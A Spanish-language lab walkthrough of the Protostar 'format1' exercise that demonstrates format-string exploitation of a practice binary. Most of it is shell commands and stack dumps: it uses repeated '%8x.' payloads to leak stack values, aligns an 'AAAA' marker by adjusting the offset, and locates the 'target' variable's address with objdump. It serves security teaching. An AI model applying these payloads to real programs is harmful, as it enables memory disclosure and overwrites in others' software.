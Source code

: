 Como podemos ver la segunda entrada de la pila es nuestro "0x0804960c" que se imprimió antes, es decir, prinf(%x) imprime contenido de la pila.

```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*150 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
3174616d
41414100
42424241
7838252e
7838252e
```
   Nos está imrpimiendo muchos valores de la pila, en cierto momento, se ven "41" y "42", que equivalen a nuestras "A" y "B", seguidos de "7838252e"
   que son nuestras "%8x.". El objetivo, esque sean las A los útlimos valores que salgan, para eso hay que reducir las x u offset.
```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'BBBB'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
726f662f
3174616d
41414100
42424241
```
   El problema esque se han mezclado los 42 y los 41 (A)s y (B)s, y tiene que quedar perfecto, asi que se reduce el numero de "B"

```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*138 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
41414141
78382542
7838252e
7838252e
7838252e
```
  Se quitan mas "x"

```console
[user@protostar]-[/opt/protostar/bin]:$ ./format1 $(python -c "print('AAAA'+'B'+'%8x.'*168 + '%x')") | tr "." "\n" ;echo
AAAABBBB 804960c
bffff488
...
2f2e0000
6d726f66
317461
41414141
```
  Perfecto, ya están alineados nuestras, "A". Pero ahora lo que interesa es cambiar esas "A" por otra cosa, la direccion de la varaible 
  que queremos modificar:
```console
[user@protostar]-[/opt/protostar/bin]:$ objdump -t ./format1 | grep "target"
08049638 g     O .bss	00000004              target
```
  La direccion de la variable "target" es *0x08049638* que si lo pasamos a endian (dar la vuelta a los bytes) sale -> *\x38\x96\x04\x08*